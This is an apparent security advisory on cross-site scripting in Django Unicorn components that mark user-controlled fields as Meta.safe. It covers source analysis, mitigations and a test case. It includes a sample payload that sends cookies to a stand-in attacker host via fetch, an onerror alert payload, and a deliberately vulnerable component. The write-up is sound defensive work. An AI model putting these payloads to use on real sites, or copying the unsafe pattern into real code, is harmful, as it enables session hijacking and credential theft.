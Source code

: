# VULNERABILITIES

## Cross-Site Scripting (XSS) via Meta.safe Attribute

### Description
Django Unicorn provides developers the ability to mark fields as "safe" (unescaped) using the `Meta.safe` attribute. If a developer marks a field as safe and that field contains user-controlled content, it creates a dangerous XSS vulnerability. By default, Django Unicorn HTML-encodes field values to prevent XSS attacks, but when a field is explicitly added to the `Meta.safe` tuple, this protection is bypassed, allowing raw HTML to be rendered.

### Impact
High. If exploited, an attacker could execute arbitrary JavaScript in the context of the victim's browser, potentially leading to session hijacking, data theft, credential theft, personal data exfiltration, or complete account takeover. This is especially dangerous in applications handling sensitive data or authentication.

### Vulnerability rank
High

### Currently implemented mitigations
The framework escapes HTML by default to prevent XSS (since version 0.36.0, fixing CVE-2021-42053). Developers must explicitly opt out of this protection by adding fields to the `Meta.safe` tuple. The documentation does mention that this is specifically for preventing XSS attacks.

### Missing mitigations
- The framework could provide more prominent warnings about the risks of using `Meta.safe`
- Additional runtime checks could be implemented to detect when user-controlled input is marked as safe
- A content security policy header could be recommended or automatically implemented
- Safer alternatives to `Meta.safe` that allow HTML but sanitize it more thoroughly

### Preconditions
1. A developer must explicitly mark a field as safe using the `Meta.safe` attribute
2. That field must contain user-controlled content
3. An attacker must be able to input malicious content into that field

### Source code analysis
In `views/__init__.py`, we see the code that marks fields as safe:
```python
# Get set of attributes that should be marked as `safe`
safe_fields = []
if hasattr(component, "Meta") and hasattr(component.Meta, "safe"):
    if isinstance(component.Meta.safe, Sequence):
        for field_name in component.Meta.safe:
            if field_name in component._attributes().keys():
                safe_fields.append(field_name)

# Mark safe attributes as such before rendering
for field_name in safe_fields:
    value = getattr(component, field_name)
    if isinstance(value, str):
        setattr(component, field_name, mark_safe(value))  # noqa: S308
```

This code explicitly looks for fields marked as "safe" in the Meta class and applies Django's `mark_safe` function to them, which bypasses HTML escaping. The `noqa: S308` comment suggests this was flagged by a static analyzer as potentially unsafe but the warning was suppressed.

The exploitation path works as follows:
1. A developer creates a component with a field that contains user input
2. The developer marks this field as "safe" in the Meta class
3. A malicious user inputs JavaScript code like `<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`
4. When the component renders, this code executes in the browser of any user viewing the component

### Security test case
1. Create a new Django project with Django Unicorn installed
2. Create a component with a view that includes user-controlled data and marks it as safe:

```python
from django_unicorn.components import UnicornView

class VulnerableComponentView(UnicornView):
    user_content = ""

    class Meta:
        safe = ("user_content",)
```

3. Create the corresponding template:

```html
<div>
  <h3>User Content:</h3>
  {{ user_content }}

  <input unicorn:model="user_content" type="text" placeholder="Enter some content" />
  <button unicorn:click="$refresh">Update Content</button>
</div>
```

4. Enter a malicious payload such as `<img src="x" onerror="alert(document.cookie)">` into the input field
5. Observe that the JavaScript executes, displaying the cookies in an alert box
6. To confirm it's the `Meta.safe` causing the issue, remove the field from the safe tuple and verify the script is rendered as text instead of being executed
